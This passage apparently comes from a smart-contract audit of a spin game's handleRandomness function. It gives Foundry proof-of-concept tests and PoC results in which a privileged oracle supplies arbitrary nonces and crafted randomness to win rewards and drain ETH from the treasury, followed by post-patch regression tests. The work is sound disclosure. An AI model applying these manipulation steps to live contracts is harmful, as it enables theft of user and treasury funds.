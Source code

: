 ```solidity
}
```

### Multi-Oracle Risk
```solidity
function testMultiOracleRisk() public {
    // Multiple addresses with SUPRA_ROLE can independently manipulate
    spin.grantRole(spin.SUPRA_ROLE(), maliciousOracle2);
    
    // Either oracle can control outcomes
    vm.startPrank(maliciousOracle2);
    spin.handleRandomness(777, maliciousRng);
    // Risk: No coordination between oracles required
}
```

### PoC Results
```
=== HIGH VULNERABILITY: Weak Access Control in handleRandomness() ===
✅ Malicious oracle successfully dictated spin outcome
✅ Arbitrary nonce (123) accepted without validation
✅ Crafted RNG (100,000) guaranteed Plume token reward
✅ User received 1 ETH reward + Plume tokens
✅ Treasury lost 1 ETH per manipulation
✅ Gas usage: ~250,000 (reasonable for repeated exploitation)
✅ Multiple oracles can independently control outcomes
✅ Wrong nonces accepted - no validation exists
```

### Post-Patch Regression Tests
```solidity
function testPatchValidation() public {
    // Deploy patched contract
    vm.startPrank(user);
    uint256 validNonce = spin.startSpin{value: spinPrice}();
    vm.stopPrank();
    
    vm.startPrank(maliciousOracle);
    uint256[] memory rng = new uint256[](1);
    rng[0] = 100_000;
    
    // Test 1: Wrong nonce should revert
    vm.expectRevert("Invalid nonce");
    spin.handleRandomness(999, rng);
    
    // Test 2: Valid nonce works once
    spin.handleRandomness(validNonce, rng);
    
    // Test 3: Replay should revert
    vm.expectRevert("Nonce already used");
    spin.handleRandomness(validNonce, rng);
    
    // Test 4: Empty RNG should revert
    uint256[] memory emptyRng = new uint256[](0);
    vm.expectRevert("Empty RNG array");
    spin.handleRandomness(validNonce, emptyRng);
}
```
